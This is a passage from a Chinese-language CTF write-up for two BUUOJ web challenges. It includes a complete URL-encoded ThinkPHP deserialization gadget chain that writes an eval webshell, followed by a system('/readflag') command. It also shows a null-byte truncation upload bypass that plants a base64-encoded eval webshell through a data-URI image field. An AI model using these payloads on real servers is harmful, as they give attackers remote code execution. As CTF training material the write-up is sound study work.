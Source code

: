 反序列化：

```
http://b581b27f-0c02-4748-8e55-10e03abc02e5.node4.buuoj.cn/index.php/index/labelmodels/get_label?tag_array[cfg]=O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A27%3A%22think%5Cmodel%5Crelation%5CHasOne%22%3A3%3A%7Bs%3A15%3A%22%00%2A%00selfRelation%22%3Bi%3A0%3Bs%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22xxx%22%3B%7Ds%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A3600%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A130%3A%22php%3A%2F%2Ffilter%2Fconvert.iconv.utf-8.utf-7%7Cconvert.base64-decode%2Fresource%3DaaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g%2F..%2Fruntime%2Fa.php%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bs%3A3%3A%22xxx%22%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7D%7Ds%3A6%3A%22parent%22%3Br%3A11%3B%7D%7D%7D
```

执行`/readflag`：

```
http://b581b27f-0c02-4748-8e55-10e03abc02e5.node4.buuoj.cn/runtime/a.php12ac95f1498ce51d2d96a249c09c1998.php

ccc=system('/readflag');
```

### <a class="reference-link" name="jj%E2%80%99s%20camera"></a>jj’s camera

经过一系列的查找，发现了源码`https://buliang0.tk/archives/0227.html`

只有qbl.php那里可以利用：

```
if(preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_img, $result))`{`
  $type = $result[2];
  if(in_array($type,array('bmp','png')))`{`
    $new_file = $up_dir.$id.'_'.date('mdHis_').'.'.$type;
    file_put_contents($new_file, base64_decode(str_replace($result[1], '', $base64_img)));
    header("Location: ".$url);
  `}`
`}`
```

想办法写马，但是后缀似乎不可控。看了一下php版本，是5.2.17，可以00截断。但是注意：

```
$id = trim($_GET['id']);
```

所以%00后面再添上个东西就可以了。

```
https://node4.buuoj.cn:26590/qbl.php?id=.feng.php%00123&amp;url=123

img=data:image/png;base64,PD9waHAgZXZhbCgkX1BPU1RbMF0pOw==
```
